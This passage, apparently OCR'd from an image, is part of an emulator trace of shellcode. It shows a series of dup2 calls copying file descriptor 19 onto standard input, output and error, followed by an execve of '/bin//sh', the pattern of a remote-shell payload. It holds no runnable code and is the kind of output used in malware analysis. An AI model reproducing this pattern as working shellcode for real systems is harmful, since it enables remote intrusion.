 ```cpp
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```
